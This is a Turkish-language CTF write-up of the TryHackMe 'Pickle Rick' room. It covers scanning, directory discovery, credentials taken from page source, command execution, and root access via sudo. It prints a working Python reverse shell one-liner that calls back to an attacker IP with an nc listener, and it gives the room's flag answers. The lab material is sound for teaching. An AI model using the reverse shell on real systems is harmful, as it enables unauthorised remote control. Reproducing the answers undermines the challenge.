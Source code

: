 ## Giriş
Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/picklerick">Pickle Rick</a> makinesinin çözümünü paylaşacağım.


Bu Rick ve Morty temalı mücadele, bir web sunucusundan yararlanmanızı ve Rick'in iksirini yapmasına ve kendisini turşudan insana dönüştürmesine yardımcı olacak üç malzeme bulmanızı gerektirir.

## Görev 1 Pickle Rick
1.
```
Rick'in ihtiyacı olan ilk malzeme nedir?
```

Her zamanki gibi nmap taraması ile başlayalım

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a1.png?raw=true)

80 portunda web sitesi çalıştığnı görüyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a2.png?raw=true)

Sayfanın kaynak koduna baktığımız zaman kullanıcı adını görüyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a3.png?raw=true)

Gobuster çalıştırıp gizli dizin arayalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a4.png?raw=true)

robots.txt login.php ve portal.php sayfalarını bulduk.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a5.png?raw=true)

robot.txt yi açtığımızda karşımıza çıkan sayfa. Şifre olabileceğini düşünerek login sayfasına giriş yapmayı deniyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a6.png?raw=true)

Giriş yapmayı başardım.
> R1ckRul3s:Wubbalubbadubdub

Komut çalıştırmayı deneyelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a7.png?raw=true)
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a8.png?raw=true)

Bu dosyanın içeriği cat komutu ile kontrol edilmek istendiğinde komut engelleniyor

Konsola python reverse shell komutu yazmayı deniyorum. [Reverse Shell Generator](https://www.revshells.com/) kullanıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a9.png?raw=true)

> export RHOST="10.14.61.127";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

netcat çalıştırmayı unutmayın.

> nc -nvlp 1234

Makineye girmeyi başardık.

Bu aşamadan sonra makinede araştırma yapmak kalıyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a10.png?raw=true)

>ls

>cat Sup3rS3cretPickl3Ingred.txt

İlk sorunun cevabına ulaşıyoruz.
> mr. meeseek hair

Devam edelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a11.png?raw=true)

>ls 

> cat *

İkinci sorunun cevabına ulaştık.

>1 jerry tear

Son sorunun cevabı root dizininde. Root dizinine ulaşmak içinde root yetkisine sahip olmak gerekir. Bu sistemde yetki yükseltme komutları için hiçbir önlem alınmamış. O yüzden herhangi bir root yükseltme komutu ile yetki yükseltilebilir. Ben root yükseltmek için sudo bash komutunu kullandım

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Pickle_Rick/images/a12.png?raw=true)

Son sorunun cevabını buluyoruz.

> fleeb juice

Ve böylelikle bir ctf daha tamamladık gelecek yazılarımda görüşmek üzere.



















